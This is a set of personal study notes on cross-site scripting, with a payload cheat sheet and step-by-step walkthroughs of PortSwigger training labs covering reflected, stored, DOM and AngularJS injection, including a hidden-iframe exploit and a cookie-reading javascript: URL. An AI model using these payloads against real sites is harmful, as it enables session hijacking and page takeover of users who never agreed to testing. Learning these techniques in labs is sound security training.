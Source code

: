 # Cross Site Scripting Notes


[Portswigger](https://portswigger.net/web-security/cross-site-scripting)

## Methodology

__Payloads__
```
Simple
<script>alert(1)</script>
Close out attribute and created new
"><svg onload=alert(1)>
Escape quotes
"onmouseover="alert(1)
Break out of Javascript string
'-alert(1)-'
AngularJS - look for things like ng-app in source
{{$on.constructor('alert(1)')()}}
```

__Using XSS cheat sheet to find unblocked tags and attributes__

### Misc DOM stuff
- Here we can see in developer tools the DOM Invader usage, the canary is on the left, you can copy your canary with the button:
![image](https://github.com/user-attachments/assets/66afdc74-2726-47ee-80b6-b0f2a8a25a56)
  
Now this is how we use DOM Invader and sending the canary into every input will help us find DOM XSS, but let's discuss now how we can view sinks in source. When inputting a string of random values that stand out like maybe `XSS` or `xvr7bpon`, it's arbitrary, we can find out more about what's happening. In this use case if we notice that our results get processed by another script like this:

![image](https://github.com/user-attachments/assets/4dbb0909-db00-4aad-8633-7734a6136193)

Then we need to view that javascript file to determine what's happening. 

![image](https://github.com/user-attachments/assets/373b2a7e-b676-44d0-8e6d-3da1f172612a)

We can see in Searchresults.js that it is using the `eval()` function which is a good place for us to attempt exploiting XSS. Now to break out let's just use what portswigger wrote to understand what's happening: 

```
payload used:
\"-alert(1)}//
```


_As you have injected a backslash and the site isn't escaping them, when the JSON response attempts to escape the opening double-quotes character, it adds a second backslash. The resulting double-backslash causes the escaping to be effectively canceled out. This means that the double-quotes are processed unescaped, which closes the string that should contain the search term._

_An arithmetic operator (in this case the subtraction operator) is then used to separate the expressions before the alert() function is called. Finally, a closing curly bracket and two forward slashes close the JSON object early and comment out what would have been the rest of the object. As a result, the response is generated as follows:_ 
`{"searchTerm":"\\"-alert(1)}//", "results":[]}`

# Labs walkthroughs

### Reflected XSS into HTML context with nothing encoded

Enter this in the search box
`<script>alert(1)</script>`

### Stored XSS into HTML context with nothing encoded

Enter this as a comment
`<script>alert(1)</script>`

### DOM XSS in document.write sink using source location.search

- Enter random input to the search box
- If we right click and inspect the page we can view that the random string we entered is placed inside the img src attribute
- enter this payload to pop xss `"><svg onload=alert(1)>`

### DOM XSS in innerHTML sink using source location.search

- Inject this into the search box `<img src=1 onerror=alert(1)>`

### DOM XSS in jQuery anchor href attribute sink using location.search source

- On the submit feedback page, change the query parameter `returnPath` to `/` followed with some random string
- right-click and inspect the element, and observe that your random string has been placed inside an `href` attribute
- Now enter this: `javascript:alert(document.cookie)`

### DOM XSS in jQuery selector sink using a hashchange event

So we notice a hashchange value in the page, we control this variable and can put our JQuery xss in this value in the url.

To exploit this we need to send an iframe with this payload in it

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
We can add `hidden="hidden"` to hide our iframe on the browser

### Reflected XSS into attribute with angle brackets HTML-encoded

- Inject a string in the search box, review what the return is and see that your string is reflected
- send this to repeater and notice your text is in a quoted `("")` attribute.
- break the quote and send in payload like this `"onmouseover="alert(1)`

### Stored XSS into anchor href attribute with double quotes HTML-encoded

- post comment with a random string in the website input
- notice it is placed in an anchor `href` attribute
- enter this payload `javascript:alert(1)`, to trigger right click in burp and select `"copy URL"` and paste it in your browser

### Reflected XSS into a JavaScript string with angle brackets HTML encoded

- inject string like above
- notice it is reflected inside a JavaScript string
- break out of string with a payload like: `'-alert(1)-'`

### DOM XSS in document.write sink using source location.search inside a select element

- when visiting the site go to a product and read the source
- you encounter information about a location.search function referencing a storeId value. We don't have this in the URL parameters we have so attempt to add this to the URL.
- Now with DOM Invader turned on inject your canary into the storeId parameter
- DOM Invader will have a simple `exploit` button you can use to exploit or use this payload `"></select><img%20src=1%20onerror=alert(1)>`

### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

- enter string into search bar, again can use DOM invaders canary for this
- view source to examine the sink, notice the usage of ng-app this implies this is AngularJS
- Now we can abuse AngularJS `{{$on.constructor('alert(1)')()}}`

### Reflected DOM XSS

- again can use DOM Invader, but for more indepth understanding let's discuss it here
- I wrote more of this lab above in DOM misc, but injection is `\"-alert(1)}//`

### Stored DOM XSS

- we can post our canary from DOM Invader and notice the comment field might be injectable
- review sources in developer tools and we see a loadCommentsWithEscapeHtml.js
- Here we see it replacing <> with &lt or &gt

![image](https://github.com/user-attachments/assets/afde9de6-9825-48d9-839f-c7bb7b01eeda)

- since replace() only looks for first accorance of the brackets placing dumby ones beforehand will let us continue injecting our payload with no issues: `<><img src=1 onerror=alert(1)>`

### Reflected XSS into HTML context with most tags and attributes blocked

This I should write a methodology also for, with finding blocked attributes



